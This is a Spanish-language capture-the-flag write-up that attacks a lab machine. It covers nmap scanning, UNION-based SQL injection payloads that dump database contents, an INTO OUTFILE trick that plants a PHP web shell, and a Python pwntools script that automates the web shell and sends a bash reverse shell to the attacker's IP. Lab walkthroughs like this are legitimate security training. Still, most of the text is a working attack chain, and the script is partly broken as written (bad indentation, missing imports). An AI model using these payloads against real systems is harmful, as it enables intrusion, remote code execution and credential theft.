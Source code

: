 #SQLi #Python
## Reconocimiento

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG allPorts`

`nmap -p 22,80,4566,8080 -sCV -vvv 10.10.11.116 -oN targeted`

```js
22/ssh
80/http
4566/http
8080/http
```

Navegamos al puerto 80.
Probando a introducir valores vemos que es vulnerable a HTMLinjection, También a Inyecciones XSS

Interceptamos la petición con Burpsuite, y vemos que en el campo de selección de países se puede inyectar código SQL y se ven reflejados en la web

`' union select database()-- -` Enumerar base de datos acctual `registration`

`' union select schema_name from information_schema.schemata-- -` Enumerar todas las bases de datos

`' union select table_name from information_schema.tables where table_schema="registration"-- -` Enumerar las tables de la base de datos registration.

`union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Enumerar las columnas

`' union select group_concat(username,0x3a,userhash) from registration-- -` Obtener los valores de las columnas


| BBDD         | TABLES       | COLUMNS   | Valores                                                      |
| ------------ | ------------ | --------- | ------------------------------------------------------------ |
| registration | registration | usernames | Muestra los valores generados anterior mentes en las pruebas |
|              |              | userhash  |                                                              |
Esos valores no nos valen

Validaremos si somos capacidades de depositar contenido en una ruta
`' union select "probando" into outfile "/var/www/html/prueba.txt"-- -` somos capaces de poder depositar contenido en diversas rutas

Como interpreta PHP la idea es inyectara un archivo de este tipo
`' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -`

Esto nos permite desde la URL acceder a `prueba.php` y con el parámetro `cmd` ejecutar comandos en el sistema

Una vez identificado todo esto podemos crear un script en Python que nos lo automatice:
```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
	print("\n[!] Saliendo...\n")
	sys.exit(1)

# CTRL + C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
	log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
	sys.exit(1)

# Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443


def createFile():
	data_post = {
	'username': 'admin',
	'country':"""Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/%s"-- -""" % (filename)
	}

r = requests.post(main_url, data=data_post)


def getAccess():
	data_post = {
	'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.18/443 0>&1'"
	}

r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == "__main__":

createFile()
try:
	threading.Thread(target=getAccess, args=()).start()
except Exception as e:
	log.error(str(e))
	
shell = listen(lport, timeout=30).wait_for_connection()
shell.interactive()
```

Este script nos generara una shell en nuestra propia maquina a la hora de ejecutarlo.
Una vez accedido a la maquina en el directorio en el que nos encontramos, encontramos un archivo `config.php` el cual contiene unas credenciales que corresponde a root